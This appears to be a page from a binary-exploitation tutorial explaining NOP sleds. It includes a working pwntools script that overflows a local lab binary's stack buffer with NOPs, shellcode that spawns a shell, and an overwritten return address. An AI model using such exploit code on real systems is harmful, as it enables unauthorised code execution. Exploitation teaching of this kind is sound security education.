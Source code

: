 ```yaml
---
description: We can use NOPs for more reliable shellcode exploits
---
```


# NOPs

NOP \(no operation\) instructions do exactly what they sound like: _nothing_. Which makes then very useful for shellcode exploits, because all they will do is run the next instruction. If we pad our exploits on the left with NOPs and point EIP at the middle of them, it'll simply keep doing no instructions until it reaches our actual shellcode. This allows us a greater margin of error as a shift of a few bytes forward or backwards won't really affect it, it'll just run a different number of NOP instructions - which have the same end result of running the shellcode. This padding with NOPs is often called a NOP slide or NOP sled, since the EIP is essentially sliding down them.

In intel x86 assembly, NOP instructions are `\x90`.

### Updating our Shellcode Exploit

We can make slight changes to our exploit to do two things:

* Add a large number of NOPs on the left
* Adjust our return pointer to point at the middle of the NOPs rather than the buffer start

> Make sure ASLR is still disabled. If you have to disable it again, you may have to readjust your previous exploit as the buffer location my be different.

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()

payload = b'\x90' * 240                 # The NOPs
payload += asm(shellcraft.sh())         # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4 + 120)        # Address of the buffer + half nop length

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

> It's probably worth mentioning that shellcode with NOPs is not failsafe; if you receive unexpected errors padding with NOPs but the shellcode worked before, try reducing the length of the nopsled as it may be tampering with other things on the stack

